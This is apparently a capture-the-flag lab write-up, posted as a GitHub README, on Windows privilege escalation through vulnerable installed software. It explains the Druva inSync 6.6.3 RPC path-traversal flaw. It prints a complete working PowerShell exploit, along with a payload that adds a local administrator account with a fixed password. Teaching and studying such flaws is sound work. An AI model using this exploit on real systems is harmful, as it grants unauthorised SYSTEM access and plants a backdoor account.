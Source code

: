 <h1>$${\color{red}Abusing} \space {\color{Goldenrod}vulnerable } \space {\color{blue}software}$$</h1>

* ## Unpatched Software

Software installed on the target system can present various privilege escalation opportunities. As with drivers, organisations and users may not update them as often as they update the operating system. You can use the ```wmic``` tool to list software installed on the target system and its versions. The command below will dump information it can gather on installed software (it might take around a minute to finish):

```
wmic product get name,version,vendor
```

Remember that the ```wmic product``` command may not return all installed programs. Depending on how some of the programs were installed, they might not get listed here. It is always worth checking desktop shortcuts, available services or generally any trace that indicates the existence of additional software that might be vulnerable.

Once we have gathered product version information, we can always search for existing exploits on the installed software online on sites like [exploit-db](https://www.exploit-db.com/), [packet storm](https://packetstormsecurity.com/) or plain old [Google](https://www.google.com/), amongst many others.

Using wmic and Google, can you find a known vulnerability on any installed product?

******

* ## Case Study: Druva inSync 6.6.3

The target server is running Druva inSync 6.6.3, which is vulnerable to privilege escalation as reported by [Matteo Malvica](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/). The vulnerability results from a bad patch applied over another vulnerability reported initially for version 6.5.0 by [Chris Lyne](https://www.tenable.com/security/research/tra-2020-12).

The software is vulnerable because it runs an RPC (Remote Procedure Call) server on port 6064 with SYSTEM privileges, accessible from localhost only. If you aren't familiar with RPC, it is simply a mechanism that allows a given process to expose functions (called procedures in RPC lingo) over the network so that other machines can call them remotely.

In the case of Druva inSync, one of the procedures exposed (specifically procedure number 5) on port 6064 allowed anyone to request the execution of any command. Since the RPC server runs as SYSTEM, any command gets executed with SYSTEM privileges.

The original vulnerability reported on versions 6.5.0 and prior allowed any command to be run without restrictions. The original idea behind providing such functionality was to remotely execute some specific binaries provided with inSync, rather than any command. Still, no check was made to make sure of that.

A patch was issued, where they decided to check that the executed command started with the string ```C:\ProgramData\Druva\inSync4\``` , where the allowed binaries were supposed to be. But then, this proved insufficient since you could simply make a path traversal attack to bypass this kind of control. Suppose that you want to execute ```C:\Windows\System32\cmd.exe``` , which is not in the allowed path; you could simply ask the server to run ```C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe``` and that would bypass the check successfully.

To put together a working exploit, we need to understand how to talk to port 6064. Luckily for us, the protocol in use is straightforward, and the packets to be sent are depicted in the following diagram:

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/42c09c82-9912-4370-819d-6772ef54afdb">
</p>

The first packet is simply a hello packet that contains a fixed string. The second packet indicates that we want to execute procedure number 5, as this is the vulnerable procedure that will execute any command for us. The last two packets are used to send the length of the command and the command string to be executed, respectively.

Initially published by Matteo Malvica [here](https://packetstormsecurity.com/files/160404/Druva-inSync-Windows-Client-6.6.3-Privilege-Escalation.html), the following exploit can be used in your target machine to elevate privileges and retrieve this task's flag. For your convenience, here is the original exploit's code:

```
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

You can pop a Powershell console and paste the exploit directly to execute it (The exploit is also available in the target machine at ```C:\tools\Druva_inSync_exploit.txt```). Note that the exploit's default payload, specified in the ```$cmd``` variable, will create a user named ```pwnd``` in the system, but won't assign him administrative privileges, so we will probably want to change the payload for something more useful. For this room, we will change the payload to run the following command:

```
net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add
```

This will create user ```pwnd``` with a password of ```SimplePass123``` and add it to the administrators' group. If the exploit was successful, you should be able to run the following command to verify that the user ```pwnd``` exists and is part of the administrators' group:

```
PS C:\> net user pwnd
```

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/ff929a75-ad8b-4a72-8853-f1767d54c177">
</p>

As a last step, you can run a command prompt as administrator:

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/dea3b8c9-b5c2-4e0e-ab20-a79fe0260e93">
</p>

When prompted for credentials, use the ```pwnd account```. From the new command prompt, you can retrieve your flag from the Administrator's desktop with the following command ```type C:\Users\Administrator\Desktop\flag.txt``` .


**********


<br>

******
if this content liked you, follow me [Here](https://github.com/4bo4yman) ;) :tada:
*****





